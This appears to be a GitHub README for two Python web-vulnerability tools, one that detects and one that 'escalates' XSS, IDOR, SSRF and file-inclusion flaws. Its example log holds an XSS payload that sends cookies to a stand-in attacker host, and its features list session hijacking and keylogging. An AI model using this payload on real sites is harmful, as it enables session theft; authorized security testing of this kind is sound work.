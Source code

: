 # **Comprehensive Vulnerability Testing (CUT)**

## **Overview**

CUT (Comprehensive Vulnerability Testing) is an advanced tool designed to identify and escalate various security vulnerabilities in an application. It combines detection and exploitation techniques to provide a thorough security assessment.

## **Features**

- **Detection**:
  - Reads detected vulnerabilities from a file.
- **Automated Exploitation**:
  - Uses specific payloads to test different vulnerabilities.
  - Dynamic scanning of endpoints.
- **Vulnerability Tests**:
  - Insecure Direct Object References (IDOR)
  - Cross-Site Scripting (XSS)
  - Server-Side Request Forgery (SSRF)
  - Local/Remote File Inclusion (LFI/RFI)
  - Privilege Escalation
- **XSS Escalation Techniques**:
  - Session Hijacking
  - Phishing
  - Keylogging
  - Stealing Sensitive Data
  - Defacement
- **Contextual Risk Assessment**:
  - Evaluates business and user impact.
- **Logging and Reporting**:
  - Logs each step and generates a comprehensive report.

## **Installation**

To install the required dependencies, run:

```bash
pip install requests
```

## **Usage**

1. **Prepare an Input File**: Create a text file with detected vulnerabilities. Each line should follow the format: `endpoint,param,vuln_type`.
2. **Run the Program**: Execute the script with the file path to the input file.

```bash
python cut.py
```

## **Example Input File**

```
https://example.com/search,query,XSS
https://example.com/login,username,SQL Injection
https://example.com/profile,user_id,IDOR
```

## **Output**

The program logs all actions and results to a file named `combined_vulnerability_report.log`.

## **Example Output**

```log
2025-01-02 07:38:12 - Loaded 3 vulnerabilities
2025-01-02 07:38:12 - Escalating XSS vulnerability at https://example.com/search with parameter query
2025-01-02 07:38:13 - Testing XSS with payload: <script>alert('XSS')</script>
2025-01-02 07:38:13 - Potential XSS vulnerability detected with payload '<script>alert('XSS')</script>'
2025-01-02 07:38:14 - Testing XSS escalation with payload: <script>document.location='http://attacker.com?cookie='+document.cookie</script>
2025-01-02 07:38:14 - Response Status Code: 200
...
2025-01-02 07:38:20 - Report saved to /path/to/output/combined_vulnerability_report.log
```

## **Contributing**

If you would like to contribute to this project, please fork the repository and submit a pull request with your changes.

## **License**

This project is licensed under the MIT License.

## **Notes**

- Ensure you have authorization to test the application for vulnerabilities.
- This program is designed for educational and ethical purposes only.

  # **Vulnerability Detection Program**

## **Overview**

This program scans for potential vulnerabilities in a given application by analyzing specified endpoints and parameters. It identifies common vulnerabilities such as SQL injection, Cross-Site Scripting (XSS), and Insecure Direct Object References (IDOR).

## **Features**

- **SQL Injection Detection**: Identifies possible SQL injection points.
- **Cross-Site Scripting (XSS) Detection**: Detects potential XSS vulnerabilities.
- **Insecure Direct Object References (IDOR) Detection**: Finds IDOR vulnerabilities.
- **Logging**: Logs all detected vulnerabilities for further analysis.

## **Installation**

To install the required dependencies, run:

```bash
pip install requests
```

## **Usage**

1. **Input File**: Prepare a text file with endpoints and parameters to test.
2. **Run the Program**: Execute the script with the file path to the input file.
   ```bash
   python vulnerability_detection.py
   ```

## **Example Input File**

```text
https://example.com/search,query,XSS
https://example.com/login,username,SQL Injection
```

## **Output**

The program logs detected vulnerabilities to a file named `vulnerability_detection.log`.

## **Example Output**

```log
2025-01-02 07:38:12 - Loaded 2 vulnerabilities
2025-01-02 07:38:12 - Testing SQL Injection vulnerability at https://example.com/login with parameter username
2025-01-02 07:38:13 - Potential SQL Injection vulnerability detected with parameter 'username'
2025-01-02 07:38:14 - Testing XSS vulnerability at https://example.com/search with parameter query
2025-01-02 07:38:15 - Potential XSS vulnerability detected with parameter 'query'
...
2025-01-02 07:38:20 - Report saved to /path/to/output/vulnerability_detection.log
```

## **Dependencies**

- Python 3.x
- `requests` library

## **Installation**

```bash
pip install requests
```

## **Contributing**

If you would like to contribute to this project, please fork the repository and submit a pull request with your changes.

## **License**

This project is licensed under the MIT License.

## **Notes**

- Ensure you have authorization to test the application for vulnerabilities.
- This program is designed for educational and ethical purposes only.


